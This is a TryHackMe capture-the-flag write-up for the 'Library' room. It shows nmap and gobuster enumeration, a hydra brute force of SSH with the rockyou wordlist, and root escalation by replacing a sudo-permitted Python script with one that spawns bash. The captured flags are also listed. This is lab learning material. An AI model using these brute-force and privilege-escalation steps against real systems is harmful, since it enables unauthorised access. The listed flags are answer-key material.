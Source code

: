 ## Library - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/bsidesgtlibrary)

**IP: 10.10.99.178**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation <br>

**Tools Used**: Nmap, Gobuster, Hydra

**Author**: <br>

mauzware aka mauzinho <br>
[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Starting with Nmap and Gobuster.

  ```
  nmap -Pn -sC -sV -T5 -p- 10.10.99.178

  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
  |   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
  |_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
  80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  | http-robots.txt: 1 disallowed entry 
  |_/
  |_http-title: Welcome to  Blog - Library Machine
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  ```
  
  ```
  gobuster dir -u http://10.10.99.178/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /images               (Status: 301) [Size: 313] [--> http://10.10.99.178/images/]
  /server-status        (Status: 403) [Size: 300]
  Progress: 220560 / 220561 (100.00%)
  ===============================================================
  Finished
  ===============================================================
  ```
  
- When I visited a web page, I tried to post a comment but it was not reflected. Users that commented on the page: meliodas, root, www-data and Anonymous.
  
- I checked `robots.txt` it gave me `rockyou` which means I can most likely use it to obtain credentials.

  ```
  User-agent: rockyou 
  Disallow: /
  ```

---

## ⚙️ Gaining Access

- I tried to gain access by uploading shells to `/images` but it wass unsuccessfull, then I switched to brute forcing since I have 4 usernames and port 22 open. I started with `meliodas` first.

  ```
  hydra -l meliodas -P /rockyou.txt -t 16 10.10.99.178 ssh
  [22][ssh] host: 10.10.99.178   login: meliodas   password: iloveyou1
  1 of 1 target successfully completed, 1 valid password found

  ```
  
- Nice, credentials obtained! Log in as meliodas with ssh and start looking for flags.

---

## 🧍 User Privilege Escalation

- First flag is there as soon as you log in.

  ```
  meliodas@ubuntu:~$ whoami
  meliodas
  
  meliodas@ubuntu:~$ ls
  bak.py  user.txt
  
  meliodas@ubuntu:~$ cat user.txt 
  6d488cbb3f111d135722c33cb635f4ec
  ```
  
- Moving to privilege escalation.

---

## 👑 Root Privilege Escalation

- With `sudo -l` I found that I have sudo permission with using Python, this is the way to root for sure, no need for further enumeration.

  ```
  meliodas@ubuntu:~$ sudo -l
  Matching Defaults entries for meliodas on ubuntu:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User meliodas may run the following commands on ubuntu:
      (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
  ```
  
- OK, so here I tried few different things to manipulate `os module` in `bak.py` script but couldn't make it work. When I tried to edit the script I got denied, so then I though "What if I delete this script and create a new one?". Well, that actually worked!

  ```rm -f bak.py```
  
- Now, since original script is deleted, create a new one named `bak.py` and run it with sudo and full paths, othervise it won't work.

  ```
  meliodas@ubuntu:~$ nano bak.py
  meliodas@ubuntu:~$ cat bak.py 
  import os
  os.system("/bin/bash")
  
  meliodas@ubuntu:~$ sudo /usr/bin/python /home/meliodas/bak.py 
  root@ubuntu:~# whoami
  root
  ```

- That's it, root obtained, now just read the flag. Keep in mind, there's few different lines of code for this 'shell' that will give you root access, try experimenting a bit!

  ```
  root@ubuntu:~# cat /root/root.txt
  e8c8c6c256c35515d1d344ee0488c617
  ```

---

## 🏁 Flags

- **User Flag**: `6d488cbb3f111d135722c33cb635f4ec`
- **Root Flag**: `e8c8c6c256c35515d1d344ee0488c617`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Finding way to root with Python.`

- What did I learn?
  `New privilege escalation.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
